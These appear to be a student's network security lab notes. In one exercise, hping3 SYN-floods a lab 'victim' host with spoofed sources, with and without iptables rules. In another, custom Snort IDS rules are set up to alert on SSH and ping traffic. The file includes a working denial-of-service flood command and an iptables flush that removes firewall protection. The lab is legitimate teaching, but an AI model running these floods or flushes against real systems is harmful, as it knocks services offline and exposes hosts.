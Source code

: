 iptables -F
iptables -P INPUT ACCEPT
iptables -P OUTPUT ACCEPT

nmap -sT 192.168.1.11 //scan victim pc to attcak whther its active or not

hping3 -S --flood --rand-source -p 80 192.168.1.11    ->  netstat -atnl -c | grep :80 , tcpdump -i any -n port 80

-1 : ICMP mode

-2 : UDP mode

-a : Fake Hostname

-p : Destination port

-S : Set the SYN flag

take ss of tcpdump, hping, system moniter graph displaying the usage of cpu,network during dos


WITH FIREWALL:
iptables -P INPUT  DROP 
iptables -P OUTPUT  DROP
iptables -A INPUT -p tcp --dport 80 -m conntrack --ctstate NEW,ESTABLISED -j ACCEPT
iptables -A OUTPUT -p tcp --sport 80 -m conntrack --ctstate ESTABLISED -j ACCEPT

hping3 -S --flood --rand-source -p 80 192.168.1.11    ->  netstat -atnl -c | grep :80 , tcpdump -i any -n port 80




UBUNTU EXP6 SNORT ids 2person:

snort --version
service snort status

cd /etc/snort
ls
cd rules
ls
ls -l | grep myrules.rules
vim myrules.rules
	alert tcp 192.168.0.0/16 any -> any 20171 (msg:"outgoing ssh connection"; flags:S; sid :10000;) 
	alert icmp any any -> any any (msg:"We are been pingged"; sid :10002; rev:1;)

cd ..
vim snort.conf
	#include /etc/snort/rules/icmp.rules
	#include /etc/snort/rules/telnet.rules
	include /etc/snort/rules/myrules.rules

ping self ip or other

tail -f /var/log/snort/alert

cd /var/log/snort

ls -l
